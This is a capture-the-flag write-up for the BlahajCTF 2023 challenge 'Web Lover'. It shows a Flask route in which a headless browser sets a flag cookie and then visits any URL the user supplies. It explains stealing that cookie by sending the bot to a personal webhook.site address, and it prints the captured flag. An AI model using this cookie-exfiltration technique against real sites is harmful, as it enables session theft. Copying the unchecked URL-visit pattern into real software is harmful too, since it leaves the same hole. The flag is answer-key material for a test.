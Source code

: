 ```yaml
---
title: Web Lover
date: 2023-12-05
tags:
- web
- author-hartmannsyg
categories: BlahajCTF 2023
---
```


solved by {% person hartmannsyg %}

> Guess blahaj's favourite website and he will give you the flag!

We are given the website and the source code. Looking into the source code, we see that it visits a site and adds a cookie, and that we are supposed to steal the cookie:
```py
@app.route("/visit")
def visit():
    chrome_options = Options()
    chrome_options.add_argument("--headless")
    with webdriver.Chrome() as driver:
        driver.get("http://127.0.0.1:50100")
        driver.add_cookie({"name": "favorite_site", "value": os.environ["flag"]})
        try:
            driver.get(request.args.get("site"))
            return "Visited"
        except:
            return "Invalid URL"
```

We simply create your own https://webhook.site, and  go to `/visit?site=https://webhook.site/<insert your id>` and we receive the header:
```
cookie: favorite_site=blahaj{x55_exi5t5_n0t_ju5t_in_scr1pt}
```

Funny, as no XSS is even required